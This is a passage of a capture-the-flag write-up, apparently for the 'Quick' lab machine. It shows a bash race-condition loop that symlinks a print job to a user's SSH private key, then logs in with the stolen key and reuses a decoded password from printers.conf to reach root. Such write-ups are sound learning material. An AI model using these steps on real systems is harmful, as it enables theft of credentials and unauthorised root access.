 **Password:** `yl51pbx` → used on printer site.

---

## Printer Race Condition → SSH Key

* Job description writes file, then reads → race condition exploitable.
* Bash script:

```bash
while true; do
  file=$(ls /var/www/jobs)
  if [[ ! -z "$file" ]]; then
    ln -sF /home/srvadm/.ssh/id_rsa /var/www/jobs/$file
    break
  fi
done
```

* Execute job → captured `srvadm` private key.

SSH access:

```bash
ssh -i srvadm.id_rsa srvadm@quick.htb
```

---

## Root

* `.cache/conf.d/printers.conf` contains encoded credentials:

```
DeviceURI https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer
```

* URL decoded: `srvadm@quick.htb:&ftQ4K3SGde8?`

SSH as root:

```bash
ssh root@quick.htb
# password: &ftQ4K3SGde8?
```

**Rooted!**

